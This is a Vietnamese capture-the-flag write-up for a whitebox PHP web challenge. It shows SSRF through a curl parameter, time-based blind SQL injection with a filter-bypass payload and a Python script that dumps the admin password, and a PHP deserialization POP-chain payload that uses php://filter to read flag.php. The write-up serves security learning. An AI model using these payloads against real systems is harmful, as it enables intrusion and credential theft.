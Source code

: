#  Happy Birthday KCSC
## Description
Whitebox
## Solution
Trước tiên ta sẽ review hết qua source code:

![img](./img/Screenshot%20from%202022-03-06%2021-16-31.png)

- ``index.php``: có param ``url`` được pass qua class ``CURL`` nằm trong ``curl.php``.
- ``curl.php``: ``curl_exec`` ở đây sẽ chỉ trả về giá trị bool để check xem CURL đến thành công hay không
- ``login.php``: nó  tạo query bằng ``bound parameters`` nên có vẻ không sqli được ở đây 
- ``/api/checkUser.php``: Đây rồi, nó nối trực tiếp câu truy vấn SQL động với param id, và nếu `` $_SERVER['REMOTE_ADDR']`` của ta là localhost, ta có thể thực hiện sqli. Đây chính là nơi mọi thứ bắt đầu :v.

Exploit: Ta có thể tận dụng trang index để curl đến ``/api/checkUser.php``. Còn để thực hiện được sqli, cụ thể ở đay là dạng **time based**, ta sẽ bypass cái ``preg_match`` kia bằng case insensitive và ``/**/``

payload: ``http://localhost/api/checkUser.php?id=1/**/AnD/**/SLEEP(5)``

success rồi, giờ viết script để dump mật khẩu thằng admin thui

Script:
```
#!python3
import requests
import string
sess=requests.Session()
url="http://localhost:10666/index.php"
i=1
passwd=''
while True:
    for c in string.printable:
        data={
            'url':f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/passwoRd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{c}',SLEEP(3),1)",
            'submit':'Submit'
        }     
        try:
            r=sess.post(url,data=data,timeout=3)
        except:
            i+=1
            passwd+=c
            print(passwd)
            break
```

![img](./img/Screenshot%20from%202022-03-06%2023-05-38.png)

``password``:``admin_password_foR_testing``

Giờ mình có thể lấy credential này để chui vào trang admin 

Review src code :
- ``admin.php``: Nhìn sơ qua thì có thể thấy rằng đây là dạng deserialize, cụ thể ở đây là thông qua ``$_COOKIE[data]``, Ngoài ra nó còn có filter lọc ``\x00``, theo mình đọc ở trang web [này](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/) thì %00 là null-byte và ``%00sometext%00`` chính là cách biểu diễn của 1 private property, tạm thời cứ thế đã. chui tiếp vao ``chain.php`` nào
- ``chain.php``: Có tất cả 5 classes : ``File``, ``Url``, ``Func1``, ``Func2``, ``Source``, mỗi class đều có phương thức magic method, vậy mục đích của ta ở đây là lợi dụng các magic method này để tấn công POP.

Reference:
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://www.php.net/manual/en/language.oop5.magic.php

Các magic method được sử dụng trong bài:
-``__construct()``: gọi khi khởi tạo đối tượng.
- ``__destruct()``: gọi khi hủy đối tượng.
- ``__get()``: khi đọc dữ liệu từ một thuộc tính không được phép truy cập.
- ``__toString()``: phương thức này giúp class chỉ định xem sẽ in ra cái gì khi nó được dùng.
- ``__invoke()``:phương thức này được gọi khi một lệnh cố gắng gọi một đối tượng như một hàm.
- ``__wakeup``: được gọi khi unserialize() đối tượng.

Khi unserialize thì ``__wakeup()`` sẽ được gọi đầu tiên, vậy ta sẽ khởi tạo tại ``Func2`` trước, và Class mình cần trigger cuối cùng là ``File`` bời vì ta có thể lợi dụng ``include`` để thực hiện LFI (mình đã thử RCE thông qua data:// nhưng mà nó đã set ``allow_url_include=0`` :( ). Giờ thì viết script thui, à mà quên như đã nhắc ở trên, ta còn phải chỉnh property từ private thành public để bypass cái preg_match

```
<?php

class File {
	public $file;

	public function __toString() {
		if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
			include($this->file);
		}
		return "Ahihhii";
	}
}


class Url {
	public $url;

	public function __construct($url) {
		$this->url = $url;
	}

	public function checkUrl() {
		if (preg_match('/[http|https]:\/\//', $this->url))
			return true;
		else
			return false;
	} 
}


class Func1 {
	public $param1;
	public $param2;

	public function __get($key) {
		$key = $this->param2;
		return $this->param1->$key();
	}
}

class Source {
	public $source;

	public function __construct($s) {
		$this->source = $s;
	}
	public function __invoke() {
		return $this->source->method;
	}
}


class Func2 {
	public $param;

	public function __wakeup() {
		$function = $this->param;
		return $function();
	}
}
$f= new File(); //__tostring
$f->file = 'pHp://FilTer/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64


$func1= new Func1(); // goi tu source qua __get
$func1->param1 = $f;
$func1->param2 = '__toString';


$src = new Source($func1); // goi tu func2 qua __invoke

$func2 = new Func2(); //_wakeup
$func2->param = $src;


$payload = serialize($func2); 
//var_dump((serialize($payload)));
echo base64_encode($payload);

?>
```

![img](./img/Screenshot%20from%202022-03-07%2000-14-00.png)

![img](./img/Screenshot%20from%202022-03-07%2000-14-44.png)

flag: KCSC{real_flag}